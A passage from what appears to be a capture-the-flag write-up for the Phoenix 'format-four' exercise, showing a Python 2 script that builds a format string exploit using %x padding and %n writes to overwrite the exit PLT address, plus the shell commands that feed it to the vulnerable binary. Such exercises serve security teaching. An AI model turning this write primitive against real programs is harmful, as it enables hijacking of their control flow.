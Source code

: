 But we dont want 45 we need, more, so

After lots of trial and error, 


``` asm

import struct
EXIT_PLT = 0x80497e4
exploit = ""
exploit += struct.pack("I", EXIT_PLT)
exploit += struct.pack("I", EXIT_PLT+1)
exploit += struct.pack("I", EXIT_PLT+2)
exploit += struct.pack("I", EXIT_PLT+3)
exploit += "%x" * 10
exploit += "%x"
exploit += "A" * 189
exploit += "%n"
exploit += " " * 130
exploit += "%n"
exploit += " " * 1663
exploit += "%n"
#exploit += " "
#exploit += "%n"
print exploit
```
```
user@phoenix-amd64:/opt/phoenix/i486$ python2 /tmp/payload.py > /tmp/payload
```
```
user@phoenix-amd64:/opt/phoenix/i486$ ./format-four < /tmp/payload
```
![output](/assets/phoenix-format/code-redirection.png)

---